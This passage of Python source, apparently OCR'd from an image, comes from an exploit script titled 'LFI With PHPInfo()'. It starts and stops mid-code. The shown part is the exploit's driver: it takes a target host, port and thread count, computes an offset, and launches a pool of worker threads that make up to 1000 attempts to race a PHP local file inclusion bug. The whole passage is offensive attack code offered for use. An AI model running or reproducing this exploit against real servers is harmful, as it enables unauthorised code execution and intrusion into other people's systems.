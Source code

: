 ```python

    print("found %s at %i" % (d[i:i+10],i))
    # padded up a bit
    return i+256

def main():

    print("LFI With PHPInfo()")
    print("-=" * 30)

    if len(sys.argv) < 2:
        print("Usage: %s host [port] [threads]" % sys.argv[0])
        sys.exit(1)

    try:
        host = socket.gethostbyname(sys.argv[1])
    except socket.error as e:
        print("Error with hostname %s: %s" % (sys.argv[1], e))
        sys.exit(1)

    port=80
    try:
        port = int(sys.argv[2])
    except IndexError:
        pass
    except ValueError as e:
        print("Error with port %d: %s" % (sys.argv[2], e))
        sys.exit(1)

    poolsz=10
    try:
        poolsz = int(sys.argv[3])
    except IndexError:
        pass
    except ValueError as e:
        print("Error with poolsz %d: %s" % (sys.argv[3], e))
        sys.exit(1)

    print("Getting initial offset...", end=' ')
    reqphp, tag, reqlfi = setup(host, port)
    offset = getOffset(host, port, reqphp)
    sys.stdout.flush()

    maxattempts = 1000
    e = threading.Event()
    l = threading.Lock()

    print("Spawning worker pool (%d)..." % poolsz)
    sys.stdout.flush()

    tp = []
    for i in range(0,poolsz):
        tp.append(ThreadWorker(e,l,maxattempts, host, port, reqphp, offset, reqlfi, tag))

    for t in tp:
        t.start()
    try:
        while not e.wait(1):
            if e.is_set():
                break
            with l:
                sys.stdout.write( "\r% 4d / % 4d" % (counter, maxattempts))
                sys.stdout.flush()
```
